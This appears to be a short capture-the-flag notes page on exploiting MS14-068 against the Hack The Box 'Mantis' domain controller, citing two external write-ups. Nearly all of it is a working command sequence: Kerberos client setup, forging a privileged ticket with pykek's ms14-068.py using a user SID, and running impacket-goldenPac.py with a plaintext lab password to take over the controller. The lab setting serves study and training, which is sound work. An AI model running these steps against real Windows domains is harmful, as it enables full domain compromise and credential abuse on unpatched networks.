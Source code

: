 Reference
https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html

https://0xdf.gitlab.io/2020/09/03/htb-mantis.html

MS14-068: Trick Windows DCs so that a simple user to get a Golden Ticket without being an admin. 

```
root@kali# apt-get install krb5-user cifs-utils rdate


update /etc/hosts.
10.10.10.52 mantis.htb.local mantis

Update /etc/resolv.conf
nameserver 10.10.10.52
nameserver 1.1.1.1
nameserver 1.0.0.1

update /etc/krb5.conf 
[libdefaults]
    default_realm = HTB.LOCAL

[realms]
    htb.local = {
        kdc = mantis.htb.local:88
        admin_serve = mantis.htb.local
        default_domain = htb.local
    }
[domain_realm]
    .domain.internal = htb.local
    domain.internal = htb.local


Use rdate to check the remote time and my host time.

```


# Generate Kerberos Ticket
```
$ kinit <username>
$ klist  # show ticket
$ impacket-smbclient -W htb.local //mantis/<folder> -k
```
# Forge Golden Ticket
```
rpcclient $> lookupnames <username>   #Verifying user

# python /opt/pykek/ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local

$ cp TGT_james@htb.local.ccache /tmp/krb5cc_0
$ smbclient -W htb.local //mantis/c$ -k
$ impacket-goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'



```
